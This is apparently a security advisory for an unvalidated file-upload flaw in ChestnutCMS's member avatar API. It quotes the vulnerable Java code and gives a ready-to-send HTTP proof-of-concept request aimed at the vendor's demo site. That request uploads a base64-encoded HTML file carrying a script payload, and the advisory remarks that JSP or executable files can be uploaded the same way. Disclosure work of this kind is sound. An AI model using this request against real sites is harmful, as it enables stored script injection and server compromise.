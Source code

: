 
## PRODUCT

ChestnutCMS

## Vendor of Product

https://gitee.com/liweiyi/ChestnutCMS

## VERSION

ChestnutCMS <=1.5.0

## Vulnerability Type

File Upload

## Description
Based on the code analysis, it was determined that the /api/member/avatar API endpoint receives a base64 string as input. This string is then passed to the memberService.uploadAvatarByBase64 method for processing. Within the service, the base64-encoded image is parsed. For example, given a string like:
data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
the content after the comma is extracted and decoded using Base64.getDecoder().decode().
The substring from the 11th character up to the first occurrence of a semicolon (;) is assigned to the suffix variable (representing the file extension). The decoded content is then written to a file.
However, the file extension is not validated, and since this functionality is exposed to the frontend, it poses significant security risks.
```
Controller

	@IgnoreDemoMode
	@Priv(type = MemberUserType.TYPE)
	@PostMapping("/avatar")
	public R<?> uploadMemberAvatar(@RequestParam String image,
								   @RequestParam(required = false, defaultValue = "false") Boolean preview) throws IOException {
		String url = this.memberService.uploadAvatarByBase64(StpMemberUtil.getLoginIdAsLong(), image);

		this.memberStatDataService.removeMemberCache(StpMemberUtil.getLoginIdAsLong());
		return R.ok(MemberUtils.getMemberResourcePrefix(preview) + url);
	}
}

Service
@Override
	public String uploadAvatarByBase64(Long memberId, String base64Data) throws IOException {
		if (!base64Data.startsWith("data:image/")) {
			return null;
		}
		String base64Str = StringUtils.substringAfter(base64Data, ",");
		byte[] imageBytes = Base64.getDecoder().decode(base64Str);

		String suffix = base64Data.substring(11, base64Data.indexOf(";"));
		String path = "avatar/" + memberId + "." + suffix;
		FileUtils.writeByteArrayToFile(new File(MemberConfig.getUploadDir() + path), imageBytes);

		log.info("upload avatar: " + path);
		this.lambdaUpdate().set(Member::getAvatar, path).eq(Member::getMemberId, memberId).update();
		return path;
	}
```


## POC：
Test with the official demonstration site and use the provided demonstration account
![image](https://github.com/user-attachments/assets/8f09a097-8729-4b9c-a199-4e17368d081c)

After logging in, replace the Authorization-M in the PoC with your account information.
Use Burp Suite to send the following crafted malicious 

PoC:

```
POST /api/member/avatar HTTP/1.1
Host: swikoon.1000mz.com
Authorization-M: Bearer b67fafaf-dd79-4c6d-8e6a-51f23a14a5b0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymTQcZR4jrbYbTdAy


------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="action"

wpcom_cropped_upload
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="nonce"

undefined
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="image"

data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="type"

0
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="user"

443381386166341
------WebKitFormBoundarymTQcZR4jrbYbTdAy--
```

![image](https://github.com/user-attachments/assets/cfa02ddd-ad75-4c8c-b145-faa3f91ffb07)

Access the return address
![image](https://github.com/user-attachments/assets/ea6cff33-0831-438d-a091-4c361ea30f9b)
Of course, you can also upload jsp or exe files

demo site
http://news.1000mz.com

official website
https://gitee.com/liweiyi/ChestnutCMS
https://www.1000mz.com/




